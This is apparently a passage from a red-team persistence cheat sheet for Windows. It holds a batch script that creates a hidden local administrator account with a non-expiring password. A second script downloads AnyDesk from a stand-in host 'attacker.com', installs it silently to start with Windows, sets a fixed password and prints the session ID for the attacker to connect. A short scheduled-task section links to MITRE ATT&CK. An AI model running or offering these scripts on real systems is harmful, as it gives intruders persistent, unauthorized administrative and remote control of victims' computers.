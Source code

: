 - batch script for automate

```batch
@echo
echo --------
color off
set user=NAME
set pass=PASS
set AdmGroupSID=S-1-5-32-544
set AdmGroup=
For /F "UseBackQ Tokens=1* Delims==" %%I In (`WMIC Group Where "SID= '%AdmGroupSID%'" Get Name /Value ^| Find "="`) Do Set AdmGroup=%%J
set AdmGroup=%AdmGroup:~0,-1%
net user %user% %pass% /add /Passwordchg:Yes
net localgroup %AdmGroup% %user% /add
WMCI useraccount where name='%user%' set passwordsexpires=false
```


#### AnyDesk

- https://support.anydesk.com/knowledge/command-line-interface-for-windows
- https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface

- get anydesk installer, install it, set password and get session id

- On attacker machine launch AnyDesk and connect with target machine id

```batch
@echo off

cmd.exe /c curl attacker.com/AnyDesk.exe -o AnyDesk.exe

mkdir "C:\ProgramData\AnyDesk"

cmd.exe /c C:\Users\Administrator\Documents\AnyDesk.exe --install C:\ProgramData\AnyDesk --start-with-win --silent

cmd.exe /c echo Admin#123 | C:\ProgramData\AnyDesk\anydesk.exe --set-password

cmd.exe /c "for /f ""delims="" %i in ('C:\ProgramData\AnyDesk\AnyDesk.exe --get-id') do echo %i"
```


#### Task-Scheduler

- https://attack.mitre.org/techniques/T1053/005/

- Are 2 types of tasks that you can set:
  - 1 - regular user with low privilegies (limited functionality)
  - 2 - local admin (you have many config options)

- Examples:

- https://thedfirreport.com/wp-content/uploads/2023/12/19208-019.png

- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks
